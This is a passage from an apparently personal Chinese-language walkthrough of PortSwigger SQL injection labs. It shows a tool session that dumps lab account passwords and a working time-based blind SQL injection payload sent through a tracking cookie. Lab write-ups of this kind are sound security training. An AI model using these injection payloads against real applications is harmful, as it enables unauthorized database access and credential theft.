 接下來使用 Option 5 即可取資料
```
Your Option : 5
Table Name : users
Column Name (support '||'): username || ':' || password

// 略...
[😺😺]Data_Name: ['administrator:bvnwdswmotsidqv2h6oe', 'carlos:4y9e16wv1ny9a0g8got4', 'wiener:lt6g3hgihj263yz3pn32']
```

透過取出的 administrator 密碼登入就可以過關ㄌ

## [Lab: Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)
### 題目敘述
 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. 
### 題目解釋
看樣子一樣在餅乾，然後需要讓系統 Delay 10 秒。

### 解答
透過 portswigger 的 [SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) 中可以找到 Time Delay 的方法

測了一下發現餅乾放

```
1' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) -- -
```

就可以 Delay 10 秒，然後就過關ㄌ

## [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

### 題目敘述
 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
